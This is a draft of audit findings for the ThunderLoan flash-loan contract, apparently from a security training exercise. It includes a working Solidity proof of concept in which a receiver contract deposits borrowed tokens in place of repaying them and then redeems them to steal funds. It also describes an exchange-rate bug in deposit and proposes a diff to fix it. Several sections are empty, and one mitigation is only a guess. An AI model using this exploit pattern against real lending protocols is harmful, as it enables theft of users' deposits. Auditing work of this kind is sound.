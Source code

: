 ### [H-#] Can Stole tokens by calling deposit instead of repay or direct transfer when flash loaninng

**Description:**

**Impact:**

**Proof of Concept:**

```solidity
    function testDepositOverReplay() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fees = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fees);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();
        assertGe(tokenA.balanceOf(address(dor)), amountToBorrow + fees);
        // 50.15718582989109e18 stolen money
        // 50.15e18 amountToBorrow + fees
        console.log("amountToBorrow + fees", (amountToBorrow + fees));
    }

/*//////////////////////////////////////////////////////////////
                             TEST-CONTRACTS
    //////////////////////////////////////////////////////////////*/

contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    address s_token;
    AssetToken assetToken;

    constructor(address _thunderloan) {
        thunderLoan = ThunderLoan(_thunderloan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /*initiator*/
        bytes calldata /*params*/
    )
        external
        returns (bool)
    {
        s_token = token;
        IERC20(s_token).approve(address(thunderLoan), 1000e19);
        thunderLoan.deposit(IERC20(token), amount + fee);
    }

    function redeemMoney() public {
        assetToken = thunderLoan.getAssetFromToken(IERC20(s_token));
        uint256 assetTokenAmount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(IERC20(s_token), assetTokenAmount);
        // console.log(assetTokenAmount);
    }
}
```

**Recommended Mitigation:**
add mutex lock when flashloaning??
################

### [H-#] Erorneous function `ThunderLoan::deposit` has `updateExchangeRate` function call which blocks redeem function and protocol thinks it has more funds that it is and update exchange rate to wrong value

**Description:**
updateExchangerate called by not fees collected
**Impact:**

1. block reddem
2. incorrect rate
   **Proof of Concept:**

```solidity
    function testRedeemAfterFlashLoan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), AMOUNT);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        vm.startPrank(liquidityProvider);
        uint256 redeemAmountByLiq = type(uint256).max;
        thunderLoan.redeem(tokenA, redeemAmountByLiq);
        // redeem amount 1003300900000000000000 1003e18
        // deposited amount  //1000e18
        //fee 0.3e18
        //amount expected to reddem => 1000.3e18; but get 1003e18
        vm.stopPrank();
    }
```

**Recommended Mitigation:**

```diff

 function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);
-         uint256 calculatedFee = getCalculatedFee(token, amount);
        // @audit-high shouldnt updateRate here
-  assetToken.updateExchangeRate(calculatedFee);
        // e underlying tokens are transferd to assettoken contract
        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```
